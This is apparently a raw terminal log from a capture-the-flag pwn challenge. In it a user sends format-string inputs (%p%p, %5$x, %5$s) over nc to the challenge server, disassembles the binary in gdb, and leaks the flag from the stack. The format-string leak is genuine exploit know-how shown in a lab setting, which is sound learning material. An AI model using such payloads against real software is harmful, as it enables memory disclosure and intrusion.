 ┌──(kali㉿kali)-[~/…/cpctf2024/pwn/CPCT/files]
└─$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%p%p
Thank you!
Your input:0x7ffcc176e690(nil)
Length: 19
This is your reward!
CPCTF{1m_50rrY_bu7_
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/cpctf2024/pwn/CPCT/files]
└─$ gdb ./chall  
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./chall...
(No debugging symbols found in ./chall)
gdb-peda$ starti
Starting program: /home/kali/ctf/cpctf2024/pwn/CPCT/files/chall 

Program stopped.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x0 
RDX: 0x0 
RSI: 0x0 
RDI: 0x0 
RBP: 0x0 
RSP: 0x7fffffffdd90 --> 0x1 
RIP: 0x7ffff7fe5360 (<_start>:	mov    rdi,rsp)
R8 : 0x0 
R9 : 0x0 
R10: 0x0 
R11: 0x0 
R12: 0x0 
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x200 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff7fe534c <_dl_help+668>:	jmp    0x7ffff7fe50e0 <_dl_help+48>
   0x7ffff7fe5351:	cs nop WORD PTR [rax+rax*1+0x0]
   0x7ffff7fe535b:	nop    DWORD PTR [rax+rax*1+0x0]
=> 0x7ffff7fe5360 <_start>:	mov    rdi,rsp
   0x7ffff7fe5363 <_start+3>:	call   0x7ffff7fe5f40 <_dl_start>
   0x7ffff7fe5368 <_dl_start_user>:	mov    r12,rax
   0x7ffff7fe536b <_dl_start_user+3>:	mov    rdx,QWORD PTR [rsp]
   0x7ffff7fe536f <_dl_start_user+7>:	mov    rsi,rdx
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd90 --> 0x1 
0008| 0x7fffffffdd98 --> 0x7fffffffe13e ("/home/kali/ctf/cpctf2024/pwn/CPCT/files/chall")
0016| 0x7fffffffdda0 --> 0x0 
0024| 0x7fffffffdda8 --> 0x7fffffffe16c ("TERMINATOR_DBUS_NAME=net.tenshu.Terminator21a9d5db22c73a993ff0b42f64b396873")
0032| 0x7fffffffddb0 --> 0x7fffffffe1b8 ("SSH_AUTH_SOCK=/tmp/ssh-ds88o6QFvy3t/agent.1044")
0040| 0x7fffffffddb8 --> 0x7fffffffe1e7 ("SESSION_MANAGER=local/kali:@/tmp/.ICE-unix/1044,unix/kali:/tmp/.ICE-unix/1044")
0048| 0x7fffffffddc0 --> 0x7fffffffe235 ("SSH_AGENT_PID=1166")
0056| 0x7fffffffddc8 --> 0x7fffffffe248 ("LANG=en_US.UTF-8")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x00007ffff7fe5360 in _start () from /lib64/ld-linux-x86-64.so.2
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x00005555555552f8 <+0>:	endbr64
   0x00005555555552fc <+4>:	push   rbp
   0x00005555555552fd <+5>:	mov    rbp,rsp
   0x0000555555555300 <+8>:	push   rbx
   0x0000555555555301 <+9>:	sub    rsp,0x98
   0x0000555555555308 <+16>:	mov    rax,QWORD PTR fs:0x28
   0x0000555555555311 <+25>:	mov    QWORD PTR [rbp-0x18],rax
   0x0000555555555315 <+29>:	xor    eax,eax
   0x0000555555555317 <+31>:	mov    eax,0x0
   0x000055555555531c <+36>:	call   0x555555555289 <init>
   0x0000555555555321 <+41>:	mov    DWORD PTR [rbp-0x85],0x0
   0x000055555555532b <+51>:	mov    BYTE PTR [rbp-0x81],0x0
   0x0000555555555332 <+58>:	mov    DWORD PTR [rbp-0x94],0x0
   0x000055555555533c <+68>:	mov    QWORD PTR [rbp-0x80],0x0
   0x0000555555555344 <+76>:	mov    QWORD PTR [rbp-0x78],0x0
   0x000055555555534c <+84>:	mov    QWORD PTR [rbp-0x70],0x0
   0x0000555555555354 <+92>:	mov    QWORD PTR [rbp-0x68],0x0
   0x000055555555535c <+100>:	mov    QWORD PTR [rbp-0x60],0x0
   0x0000555555555364 <+108>:	mov    QWORD PTR [rbp-0x58],0x0
   0x000055555555536c <+116>:	mov    QWORD PTR [rbp-0x50],0x0
   0x0000555555555374 <+124>:	mov    QWORD PTR [rbp-0x48],0x0
   0x000055555555537c <+132>:	mov    QWORD PTR [rbp-0x40],0x0
   0x0000555555555384 <+140>:	mov    QWORD PTR [rbp-0x38],0x0
   0x000055555555538c <+148>:	mov    QWORD PTR [rbp-0x30],0x0
   0x0000555555555394 <+156>:	mov    QWORD PTR [rbp-0x28],0x0
   0x000055555555539c <+164>:	mov    DWORD PTR [rbp-0x20],0x0
   0x00005555555553a3 <+171>:	lea    rax,[rip+0xc5e]        # 0x555555556008
   0x00005555555553aa <+178>:	mov    rsi,rax
   0x00005555555553ad <+181>:	lea    rax,[rip+0xc56]        # 0x55555555600a
   0x00005555555553b4 <+188>:	mov    rdi,rax
   0x00005555555553b7 <+191>:	call   0x555555555190 <fopen@plt>
   0x00005555555553bc <+196>:	mov    QWORD PTR [rbp-0x90],rax
   0x00005555555553c3 <+203>:	cmp    QWORD PTR [rbp-0x90],0x0
   0x00005555555553cb <+211>:	jne    0x5555555553e6 <main+238>
   0x00005555555553cd <+213>:	lea    rax,[rip+0xc3f]        # 0x555555556013
   0x00005555555553d4 <+220>:	mov    rdi,rax
   0x00005555555553d7 <+223>:	call   0x555555555100 <puts@plt>
   0x00005555555553dc <+228>:	mov    eax,0x1
   0x00005555555553e1 <+233>:	jmp    0x555555555545 <main+589>
   0x00005555555553e6 <+238>:	mov    rdx,QWORD PTR [rbp-0x90]
   0x00005555555553ed <+245>:	lea    rax,[rbp-0x80]
   0x00005555555553f1 <+249>:	mov    esi,0x64
   0x00005555555553f6 <+254>:	mov    rdi,rax
   0x00005555555553f9 <+257>:	call   0x555555555170 <fgets@plt>
   0x00005555555553fe <+262>:	mov    rax,QWORD PTR [rbp-0x90]
   0x0000555555555405 <+269>:	mov    rdi,rax
   0x0000555555555408 <+272>:	call   0x555555555110 <fclose@plt>
   0x000055555555540d <+277>:	lea    rax,[rip+0xc1c]        # 0x555555556030
   0x0000555555555414 <+284>:	mov    rdi,rax
   0x0000555555555417 <+287>:	call   0x555555555100 <puts@plt>
   0x000055555555541c <+292>:	lea    rax,[rbp-0x85]
   0x0000555555555423 <+299>:	mov    edx,0x5
   0x0000555555555428 <+304>:	mov    rsi,rax
   0x000055555555542b <+307>:	mov    edi,0x0
   0x0000555555555430 <+312>:	call   0x555555555160 <read@plt>
   0x0000555555555435 <+317>:	mov    DWORD PTR [rbp-0x9c],0x0
   0x000055555555543f <+327>:	jmp    0x55555555546e <main+374>
   0x0000555555555441 <+329>:	mov    eax,DWORD PTR [rbp-0x9c]
   0x0000555555555447 <+335>:	cdqe
   0x0000555555555449 <+337>:	movzx  eax,BYTE PTR [rbp+rax*1-0x85]
   0x0000555555555451 <+345>:	cmp    al,0xa
   0x0000555555555453 <+347>:	jne    0x555555555467 <main+367>
   0x0000555555555455 <+349>:	mov    eax,DWORD PTR [rbp-0x9c]
   0x000055555555545b <+355>:	cdqe
   0x000055555555545d <+357>:	mov    BYTE PTR [rbp+rax*1-0x85],0x0
   0x0000555555555465 <+365>:	jmp    0x555555555477 <main+383>
   0x0000555555555467 <+367>:	add    DWORD PTR [rbp-0x9c],0x1
   0x000055555555546e <+374>:	cmp    DWORD PTR [rbp-0x9c],0x3
   0x0000555555555475 <+381>:	jle    0x555555555441 <main+329>
   0x0000555555555477 <+383>:	mov    BYTE PTR [rbp-0x81],0x0
   0x000055555555547e <+390>:	lea    rax,[rip+0xbd7]        # 0x55555555605c
   0x0000555555555485 <+397>:	mov    rdi,rax
   0x0000555555555488 <+400>:	mov    eax,0x0
   0x000055555555548d <+405>:	call   0x555555555140 <printf@plt>
   0x0000555555555492 <+410>:	lea    rax,[rbp-0x85]
   0x0000555555555499 <+417>:	mov    rdi,rax
   0x000055555555549c <+420>:	mov    eax,0x0
   0x00005555555554a1 <+425>:	call   0x555555555140 <printf@plt>
   0x00005555555554a6 <+430>:	mov    DWORD PTR [rbp-0x94],eax
   0x00005555555554ac <+436>:	mov    edi,0xa
   0x00005555555554b1 <+441>:	call   0x5555555550f0 <putchar@plt>
   0x00005555555554b6 <+446>:	mov    eax,DWORD PTR [rbp-0x94]
   0x00005555555554bc <+452>:	mov    esi,eax
   0x00005555555554be <+454>:	lea    rax,[rip+0xbae]        # 0x555555556073
   0x00005555555554c5 <+461>:	mov    rdi,rax
   0x00005555555554c8 <+464>:	mov    eax,0x0
   0x00005555555554cd <+469>:	call   0x555555555140 <printf@plt>
   0x00005555555554d2 <+474>:	lea    rax,[rip+0xba6]        # 0x55555555607f
   0x00005555555554d9 <+481>:	mov    rdi,rax
   0x00005555555554dc <+484>:	call   0x555555555100 <puts@plt>
   0x00005555555554e1 <+489>:	mov    DWORD PTR [rbp-0x98],0x0
   0x00005555555554eb <+499>:	jmp    0x555555555525 <main+557>
   0x00005555555554ed <+501>:	mov    eax,DWORD PTR [rbp-0x98]
   0x00005555555554f3 <+507>:	cdqe
   0x00005555555554f5 <+509>:	movzx  eax,BYTE PTR [rbp+rax*1-0x80]
   0x00005555555554fa <+514>:	movsx  eax,al
   0x00005555555554fd <+517>:	mov    edi,eax
   0x00005555555554ff <+519>:	call   0x5555555550f0 <putchar@plt>
   0x0000555555555504 <+524>:	mov    eax,DWORD PTR [rbp-0x98]
   0x000055555555550a <+530>:	movsxd rbx,eax
   0x000055555555550d <+533>:	lea    rax,[rbp-0x80]
   0x0000555555555511 <+537>:	mov    rdi,rax
   0x0000555555555514 <+540>:	call   0x555555555120 <strlen@plt>
   0x0000555555555519 <+545>:	cmp    rbx,rax
   0x000055555555551c <+548>:	jae    0x555555555535 <main+573>
   0x000055555555551e <+550>:	add    DWORD PTR [rbp-0x98],0x1
   0x0000555555555525 <+557>:	mov    eax,DWORD PTR [rbp-0x98]
   0x000055555555552b <+563>:	cmp    eax,DWORD PTR [rbp-0x94]
   0x0000555555555531 <+569>:	jl     0x5555555554ed <main+501>
   0x0000555555555533 <+571>:	jmp    0x555555555536 <main+574>
   0x0000555555555535 <+573>:	nop
   0x0000555555555536 <+574>:	mov    edi,0xa
   0x000055555555553b <+579>:	call   0x5555555550f0 <putchar@plt>
   0x0000555555555540 <+584>:	mov    eax,0x0
   0x0000555555555545 <+589>:	mov    rdx,QWORD PTR [rbp-0x18]
   0x0000555555555549 <+593>:	sub    rdx,QWORD PTR fs:0x28
   0x0000555555555552 <+602>:	je     0x555555555559 <main+609>
   0x0000555555555554 <+604>:	call   0x555555555130 <__stack_chk_fail@plt>
   0x0000555555555559 <+609>:	mov    rbx,QWORD PTR [rbp-0x8]
   0x000055555555555d <+613>:	leave
   0x000055555555555e <+614>:	ret
End of assembler dump.
gdb-peda$ break *0x0000555555555559
Breakpoint 1 at 0x555555555559
gdb-peda$ c
Continuing.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter some string! (max 4 character)
%p%p
Thank you!
Your input:0x7fffffffda30(nil)
Length: 19
This is your reward!
flag{flag}


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0xb ('\x0b')
RCX: 0x7ffff7ebeb00 (<__GI___libc_write+16>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7ffff7f9b803 --> 0xf9ca30000000000a 
RDI: 0x7ffff7f9ca30 --> 0x0 
RBP: 0x7fffffffdc80 --> 0x1 
RSP: 0x7fffffffdbe0 --> 0x430326674 
RIP: 0x555555555559 (<main+609>:	mov    rbx,QWORD PTR [rbp-0x8])
R8 : 0xee08 
R9 : 0x0 
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffdda8 --> 0x7fffffffe16c ("TERMINATOR_DBUS_NAME=net.tenshu.Terminator21a9d5db22c73a993ff0b42f64b396873")
R14: 0x555555557d70 --> 0x555555555240 (<__do_global_dtors_aux>:	endbr64)
R15: 0x7ffff7ffd000 --> 0x7ffff7ffe2d0 --> 0x555555554000 --> 0x10102464c457f
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555555549 <main+593>:	sub    rdx,QWORD PTR fs:0x28
   0x555555555552 <main+602>:	je     0x555555555559 <main+609>
   0x555555555554 <main+604>:	call   0x555555555130 <__stack_chk_fail@plt>
=> 0x555555555559 <main+609>:	mov    rbx,QWORD PTR [rbp-0x8]
   0x55555555555d <main+613>:	leave
   0x55555555555e <main+614>:	ret
   0x55555555555f:	add    bl,dh
   0x555555555561 <_fini+1>:	nop    edx
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbe0 --> 0x430326674 
0008| 0x7fffffffdbe8 --> 0x130000000b 
0016| 0x7fffffffdbf0 --> 0x5555555592a0 --> 0x555555559 
0024| 0x7fffffffdbf8 --> 0x70257025000000 ('')
0032| 0x7fffffffdc00 ("flag{flag}\n")
0040| 0x7fffffffdc08 --> 0xa7d67 ('g}\n')
0048| 0x7fffffffdc10 --> 0x0 
0056| 0x7fffffffdc18 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000555555555559 in main ()
gdb-peda$ c
Continuing.

Program received signal SIGALRM, Alarm clock.
[Inferior 1 (process 62891) exited normally]
Warning: not running
gdb-peda$ q
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/cpctf2024/pwn/CPCT/files]
└─$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%5$x
Thank you!
Your input:170b7480
Length: 8
This is your reward!
CPCTF{1m
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/cpctf2024/pwn/CPCT/files]
└─$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%5$s
Thank you!
Your input:CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}
Length: 45
This is your reward!
CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}

